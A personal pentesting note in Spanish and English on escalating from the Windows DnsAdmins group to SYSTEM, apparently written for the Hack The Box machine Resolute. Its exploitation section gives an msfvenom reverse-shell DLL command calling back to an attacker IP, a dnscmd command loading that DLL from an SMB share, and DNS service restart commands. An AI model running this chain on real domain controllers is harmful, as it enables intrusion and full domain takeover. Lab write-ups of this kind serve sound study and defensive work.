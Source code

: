 
## DESCRIPTION

Un usuario perteneciente al grupo DNSAdmin puede escalar privilegios y convertirse en Administrador.

![[Pasted image 20230306114843.png]]

This parameter enables the user that is a part of the DnsAdmins group to load a DLL which it doesn’t even monitor for content. DnsAdmins users can execute this DLL with elevated privilege which makes them susceptible to Privilege Escalation.

#### Mas información
* https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/
* https://0xdf.gitlab.io/2020/05/30/htb-resolute.html
* https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b

## EXPLOITATION

1. Crear nuestra DLL maliciosa, nosotros vamos a usar msfvenom pero existen otras alternativas.  To exploit that privilege, we need to craft a malicious DLL file. We will be using msfvenom with the shell_reverse_tcp payload. We name the file raj.dll. The file we created is on our Kali machine. We use the smbserver.py python script from Impacket to host the /root directory as demonstrated below.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll -o test.dll
```

![[Pasted image 20230306115524.png]]

2. Cargamos la DLL maliciosa. In the domain controller, run the dnscmd command below to load the malicious DLL (DNSPriv.dll) from our attacking machine.

***dnscmd is a windows utility that allows DNS Admins to manage the DNS server._**

```
dnscmd <<IP-LOCAL>> /config /serverlevelplugindll <<DLL maliciosa>> 

# Ejemplo usando smb
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.23\shareDrive\DLLmaliciosa.dll
```

**!!NOTA IMPORTANTE!!** Si da fallo al subir la DLL o al ejecutarla, entonces prueba a levantar un directorio compartido

3. Una vez cargada, necesitamos ejecutarla. Para ejecutarla debemos reiniciar el servicio DNS.

```
sc.exe stop dns
sc.exe start dns
```

![[Pasted image 20230306115841.png]]

4. As we see, after the restart, dnscmd loaded our DLL, and we got the elevated shell as System.

![[Pasted image 20230306115903.png]]

## MACHINES

* Hack The Box: Resolute
